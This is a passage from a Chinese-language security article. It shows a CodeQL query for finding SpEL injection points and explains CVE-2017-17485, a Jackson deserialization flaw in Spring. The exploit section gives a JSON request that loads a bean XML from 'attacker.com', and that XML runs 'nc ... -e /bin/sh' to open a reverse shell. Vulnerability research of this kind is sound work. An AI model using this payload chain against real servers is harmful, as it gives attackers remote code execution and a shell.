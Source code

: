 然后，可以组合Javadoc、类、方法作为最后的过滤条件，示例查询将如下所示：
```java
from ParseExpression expr, CallHasPath c
where (expr.getQualifier().getType().(RefType).getASupertype*() instanceof ExpressionParser and
       c = expr.getEnclosingCallable())
select expr, c
```
上述QL示例还是相对比较简单的，但是可以搜索到特定漏洞，如上QL搜索到两处潜在SpEL注入的点，执行结果参考[LGTM-QL](https://lgtm.com/query/2141670445/)。QL功能强大，还可以编写更有趣、更复杂的判断逻辑提高搜索准确性。
##### Jackson and Bean

CVE-2017-17485基于FileSystemXmlApplicationContext的使用，FileSystemXmlApplicationContext是一个独立的XML应用程序上下文，用于从文件系统或URL检索上下文定义文件。
根据文档描述，它允许从文件加载bean并重新加载应用程序上下文。

> “… Create a new FileSystemXmlApplicationContext, loading the definitions from the given XML files and automatically refreshing the context”

Jackson是一个可以序列化和反序列化除黑名单之外的任何对象的库。入侵者经常使用此功能。对于此漏洞，攻击者必须传递一个对象org.springframework.context.support.FileSystemXmlApplicationContext，该对象的值包含攻击者控制的文件的路径。

对于此漏洞，攻击者必须传递一个对象org.springframework.context.support.FileSystemXmlApplicationContext，该对象的值包含攻击者控制的文件的路径。

即在请求的body中，可以传递以下JSON：
```json
{"id":123, "obj": ["org.springframework.context.support.FileSystemXmlApplicationContext", "https://attacker.com/spel.xml"]}
```

Spel.xml将包含bean的配置参数：
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder">
  <constructor-arg>
    <list value-type="java.lang.String" >
       <value>nc</value>
       <value>X.X.X.X</value>
       <value>9999</value>
       <value>-e</value>
       <value>/bin/sh</value>
    </list>
  </constructor-arg>
  <property name="whatever" value="#{pb.start()}"/>
</bean>
</beans>
```
因为我们使用java.lang.ProcessBuilder类作为bean，它有一个start方法，然后在上下文重新加载后，Spring从SpEL属性读取启动ProcessBuilder的表达式，从而使服务器使执行nc命令连接到我们。

作为一个例子，值得关注spel.xml，因为它显示了在运行命令时如何传递参数。

我们还能加载我们的bean还是重新加载上下文？通过快速阅读Spring文档，你也可以找到一些对我们有用的类。
